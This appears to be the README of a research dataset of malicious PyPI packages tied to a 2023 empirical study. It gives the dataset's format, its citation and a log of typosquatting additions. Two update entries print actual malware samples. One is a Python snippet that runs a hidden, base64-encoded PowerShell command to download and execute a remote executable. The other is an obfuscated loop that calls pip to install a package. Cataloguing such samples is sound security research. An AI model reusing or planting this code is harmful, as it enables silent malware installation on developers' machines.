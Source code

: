 ## Dataset Size

This data set includes about 4,592 versions of the source code of 4,082 malicious packages.

## Dataset Format

`package name -> version -> source code zip file.`

Example:
`ython-binance -> 0.1 -> ython-binance-0.1.tar.gz`

## False positive

We have manually checked all collected malicious packages and have now removed all false positives.

## Reference

This dataset is the work of the ASE 2023 paper "An Empirical Study of Malicious Code In PyPI Ecosystem"

```
@misc{guo2023empirical,
      title={An Empirical Study of Malicious Code In PyPI Ecosystem}, 
      author={Wenbo Guo and Zhengzi Xu and Chengwei Liu and Cheng Huang and Yong Fang and Yang Liu},
      year={2023},
      eprint={2309.11021},
      archivePrefix={arXiv},
      primaryClass={cs.SE}
}
```

## Update

### 31 Mar. 2024 
Add new 431 malicious packages using typoSquatting attack method.

ref: [https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ](https://mp.weixin.qq.com/s/VIThE0I5BkQBW6hIOubnkQ)


### 04 Apr. 2024 
Add new 45 malicious packages using typoSquatting attack method.


### 16 Apr. 2024 
Add new 56 malicious packages using typoSquatting attack method. 

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    # www.esquelesquad.rip
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


### 21 Apr. 2024 
Add new 34 malicious packages using typoSquatting attack method.


### 1 May. 2024 
Add new 1154 malicious packages using typoSquatting attack method.

Malicious code in these packages.
```python
try:
  import subprocess
  import os
  if not os.path.exists('tahg'):
    subprocess.Popen('powershell -WindowStyle Hidden -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAcwA6AC8ALwBkAGwALgBkAHIAbwBwAGIAbwB4AC4AYwBvAG0ALwBzAC8AcwB6AGcAbgB5AHQAOQB6AGIAdQBiADAAcQBtAHYALwBFAHMAcQB1AGUAbABlAC4AZQB4AGUAPwBkAGwAPQAwACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiAH4ALwBXAGkAbgBkAG8AdwBzAEMAYQBjAGgAZQAuAGUAeABlACIAOwAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACIAfgAvAFcAaQBuAGQAbwB3AHMAQwBhAGMAaABlAC4AZQB4AGUAIgA=', shell=False, creationflags=subprocess.CREATE_NO_WINDOW)
except: pass
```


```python
...
while 馬女水女口目人馬鳥月水馬山山馬鸟:
  if 108363 == 馬女水女口目人馬鳥月水馬山山馬鸟:
    import pip
    pip.main([''.join(map(getattr(__builtins__, oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), (7 << 4) + 3, (7 << 4) + (1 << 2), (3 << 5) + 1, (((7 << 2) - 1) << 2), (((7 << 2) - 1) << 2)])), ''.join(map(getattr(__builtins__,
              oct.__str__()[-3 << 0] + hex.__str__()[-1 << 2] + copyright.__str__()[4 << 0]), [(7 << 4), (((1 << 4) - 1) << 3) + 1, (7 << 4), ((((3 << 2) + 1)) << 3) + 1, (((1 << 4) - 1) << 3) - 1, ((((3 << 2) + 1)) << 3) + 1, (7 << 4) - (1 << 1), ((((3 << 2) + 1)) << 2) - 1, (((3 << 3) + 1) << 1)]))])

    馬女水女口目人馬鳥月水馬山山馬鸟 = (896*(494 & 86)+104//648-(885 | 515+277) | 885 << 141 << 580 >> (593 | 648) & ~87) >> 9523
  elif 馬女水女口目人馬鳥月水馬山山馬鸟 == 286625773:
...
```
